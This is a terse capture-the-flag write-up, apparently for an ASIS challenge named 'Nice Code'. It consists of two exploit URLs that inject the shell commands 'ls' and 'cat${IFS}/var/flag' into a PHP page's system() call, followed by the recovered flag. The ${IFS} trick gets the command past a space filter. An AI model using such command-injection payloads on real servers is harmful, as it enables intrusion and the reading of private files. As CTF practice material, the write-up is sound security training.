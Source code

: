 # Nice Code

http://167.99.36.112:8080/another/index.php?x=aaaaaaaaaaaaaaaaaa&0=g&ls=system


http://167.99.36.112:8080/another/index.php?x=aaaaaaaaaaaaaaaaaa&0=g&cat${IFS}/var/flag=system


ASIS{f52c5a0cf980887bdac6ccaebac0e8428bfb8b83} 
